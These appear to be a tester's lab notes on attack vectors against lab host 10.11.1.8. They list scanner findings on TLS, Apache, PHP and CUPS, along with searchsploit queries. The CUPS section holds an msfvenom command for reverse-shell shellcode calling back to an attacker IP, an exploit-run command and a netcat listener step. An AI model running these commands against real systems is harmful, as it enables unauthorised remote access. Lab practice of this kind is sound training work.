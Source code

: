 Attack Vectors & Searchsploit

Attack Vectors / Searchsploit

# FTP
![bcf4f777d82124a6f6681598f968fe2e.png](../../../_resources/c38a5c85fe5b41828ed29a3d16327a13.png)

# Robots.txt
Disallows /internal and /tmp/
+ GET Entry '/internal/' in robots.txt returned a non-forbidden or redirect HTTP code (200)

# http://10.11.1.8/internal
Has a comment form. Source code uses javascript?
![internal.png](../../../_resources/6788a70e2fe04d3d978f015c113b453e.png)
[curl_internalDir.txt](../../../_resources/0eec02651e6a4c788d91363c816094e2.txt)
![41270687309b23fb6904f4d978c518e7.png](../../../_resources/6fe1e9bd5210454d92127bda76781b6b.png)

# HTTP Method TRACE on port 80
+ OSVDB-877: TRACE HTTP TRACE method is active, suggesting the host is vulnerable to XST
![e86dd289f9a74cbe77e78847cc290e63.png](../../../_resources/f0558877879046f5a151ff928dc4227b.png)

# Apache Byterange Filter DoS
![14cd87d499350475a454433f8fc5999c.png](../../../_resources/1e30c24fa4934f1e885a971ef0de54b7.png)

# Slowloris DOS attack
![6c0b5e0a514955ebdf090e3431f9f475.png](../../../_resources/5e28db68b3434a58a32094111e694bd9.png)

# SSL/TLS MITM vulnerability (CCS Injection)
![ceeab58584de81c563b38181726f845d.png](../../../_resources/3a1e47526ba64ac7a1113fe706ed9a70.png)

# Transport Layer Security (TLS) Protocol DHE_EXPORT Ciphers Downgrade MitM (Logjam)
![ac86e230df29dee84ba189bbae987d2c.png](../../../_resources/cdca62c7c96645cdb642d96391aad6ba.png)

# Diffie-Hellman Key Exchange Insufficient Group Strength
![4dc32ae8266f6d39e7501e6b38df07a6.png](../../../_resources/d1801f6574e643449da07fe112827103.png)


# SSL POODLE information leak 
![61124822749b8f73259fc320c28d0e8a.png](../../../_resources/b94390776bd94988b04fcd117329ef73.png)


# There is a cgi-bin folder 
`http://10.11.1.8/cgi-bin/`

# PHP/4.3.9
+ GET Retrieved x-powered-by header: PHP/4.3.9

# Apache 2.0.52
+ HEAD Apache/2.0.52 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
`searchsploit apache 2.0.52`
![2eeacab4abd8612c0fa28c194de0b2de.png](../../../_resources/b5df77453e7746b385e2206efdc3f66c.png)



# TCN (Transparent Content Negotiation) Header
+ GET Uncommon header 'tcn' found, with contents: choice

# HTTP method ('Allow Header')
+ OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.


# CUPS 1.1
`searchsploit cups 1.1`
![ed6b1d15f17bf2f421bd4aba78b4f03e.png](../../../_resources/1ba48839d3ab40f78be7015ef1bcd589.png)

## Remote Command Execution
### Searchsploit
`searchsploit -m 41233`
![85b1395bad7162be5388d90267cb6d65.png](../../../_resources/1dec8f3b6842402ebc073dd05fc1bf8b.png)

Generated shellcode
`msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.119.214 LPORT=5678 EXITFUNC=thread -f c --platform linux -o rev_linux_x86_shellReverseTcp_192.168.119.214_5678`
![22d5f4dca9ebcdfea26b72ef07a53416.png](../../../_resources/8472602a6ef147409a2b9b915cc1b905.png)

Usage:
![574117dd62a21754fa65efc6c999d724.png](../../../_resources/57f29045e05545d8b9b3bcb993b35555.png)

Run it - NO OUTPUT. LIKELY THE SHELL IS WRONG
`python cups/41233.py -a 10.11.1.8 -b 631 -c rev_linux_x86_shellReverseTcp_192.168.119.214_5678`
![571bb50a4e4263623407461b8638af83.png](../../../_resources/41ecec604fe64b25a7d773365bab6887.png)






### Packet Storm Labs sigcup.c
https://github.com/BuddhaLabs/PacketStorm-Exploits/tree/master/0301-exploits

There are many warnings but it did compile
![9837a0f6eb47c273202f1c81f7bdf405.png](../../../_resources/974ef6eb35a444cf8ec0788d491e5c17.png)

Usage
![35212845759556195a6ff948bcb38ee4.png](../../../_resources/199975c9b2ad444dbb39c6113931b77d.png)

Created netcat listener
![7e95a543d2f316b4e0208c23392ac58e.png](../../../_resources/21e3c3e911184b10b5cc3196a7bcdcc9.png)

Run sigcups on target
![7e76f373619b1f1d7e364b9c2a5973b7.png](../../../_resources/7b50ac0958e94292b867087c8dc79d15.png)






# Port 3306
SQL Injection mysql?

